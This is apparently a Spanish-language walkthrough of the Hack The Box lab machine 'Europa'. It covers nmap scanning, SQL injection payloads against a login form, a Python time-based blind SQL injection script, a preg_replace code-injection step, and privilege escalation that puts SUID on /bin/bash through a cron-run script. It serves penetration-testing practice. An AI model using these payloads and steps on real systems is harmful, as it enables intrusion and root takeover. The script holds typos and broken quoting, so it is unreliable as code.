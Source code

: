 ```yaml
---
title: "Europe"
description: "Europe"
pubDate: 2025-05-20
---
```


https://app.hackthebox.com/machines/Europa

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.10.22
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250221105016.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80,443 10.10.10.22
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250221105129.png)

## Fuzz

````
openssl s_client -connect 10.10.11.110:443
````

Vemos una direccion DNS y un usuario
Encontramos un panel de autenticación en la direccion

# Fase de ataque

## SQLI

Con burpsuite probamos SQLI

````
email=admin@europacorp.htb' order by 100-- -&password=aa
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250221114855.png)
Parece vulnerable a SQLI

Encontramos las columnas

````
email=admin@europacorp.htb' order by 5-- -&password=aa
````

### Time based Sleep database leak (Inyeccion basada en tiempo)

Cuando al intentar listar contenido en algún campo de la web y no sale nada, utilizamos esta técnica para enumerar

````python
#!/usr/bin/python3

from pwn import *
import requests, sys, sginal, time, pdb, urllib3, string

urllib3.disable_warnings();

def def_handler(sig, frame):
    print("\n\nSaliendo\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

login_url = "https://admin.portal.europacorp.htb/login.php"
characters = string.ascii_lowercase

def SQLI():
    s = requests.session()
    s.verify = False

    for position in range(1,10):
        for character in characters:
            post_data = {
            'email': 'admin@europacorp.htb' and if (substr(database(),%d,1)='%s',sleep(5),1)-- -" % (position, character),
            'password': 'aa'
            }

            time_start = time.time()
            r = s.post(login_url, data=post_data)
            time_end = time.time()

            if time_end - time_start > 5:
                print ("El caracter es %s" % character)
                break

if __name__ == '__main__':
    SQLI()
````

++++

## Web

Interceptamos la conexion por burpsuite
Puedes cambair el ip_address en un sito de la web, esto usa regex y preg_replace y se puede hacer que lo sustituya por php malicioso
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250221145805.png)
\[-\] ==pwned!==

# Privilege Escalation

En crontab hay un archivo que se ejecuta

````
cat /etc/crontab
````

Editamos el archivo que ejecuta y hacemos bash SUID

````bash
#!/bin/bash

chmod u+s /bin/bash
````

Ejecutamos la bash

````
bash -p
````

\[+\] ==pwned!==
